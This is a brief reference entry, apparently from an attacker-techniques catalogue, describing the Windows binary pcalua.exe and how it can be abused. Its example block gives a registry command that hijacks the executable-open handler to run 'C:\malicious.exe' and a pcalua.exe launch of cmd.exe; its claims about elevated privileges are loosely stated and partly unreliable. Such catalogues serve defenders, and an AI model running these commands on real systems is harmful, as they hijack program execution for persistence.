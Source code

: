 # pcalua.exe
## What is it?
*pcalua.exe (Program Compatibility Assistant) is a Windows process used to launch legacy applications with elevated privileges.*

## Legitimate Use
*It helps users run older applications that require administrative rights to function properly.*

## How to Abuse it
*Attackers can abuse registry modifications to hijack the execution of pcalua.exe and launch malicious code with elevated privileges.*

## Example Attacks
```
reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "C:\malicious.exe"

pcalua.exe -a C:\Windows\System32\cmd.exe
```

